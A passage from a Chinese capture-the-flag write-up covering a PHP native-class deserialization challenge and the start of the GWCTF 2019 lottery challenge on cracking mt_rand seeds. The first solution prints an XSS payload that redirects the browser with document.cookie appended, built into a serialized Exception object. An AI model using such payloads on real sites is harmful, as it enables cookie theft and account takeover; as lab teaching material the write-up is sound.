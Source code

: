 *   打开什么都没有就很可能是源码泄露。测试一下，git源码泄露，用GitHack得到源码。

```
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a); 
```

*   反序列化，没有已定义的类，[原生类反序列化](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html)。
*   结合题目提示xss，直接传参即可。

```
<?php
$a = serialize(new Exception("<script>window.location.href='127.0.0.1'+document.cookie</script>"));
echo urlencode($a);
?> 
```

### 5、[GWCTF 2019]枯燥的抽奖

```
<?php

header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";

if(isset($_POST['num'])){
    if($_POST['num']===$str){
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php"); 
```

*   逻辑关系很简单，就一个相等。知识点是PHP伪随机数的破解。[相关知识](https://www.freebuf.com/vuls/192012.html)

*   其中有一个重点。
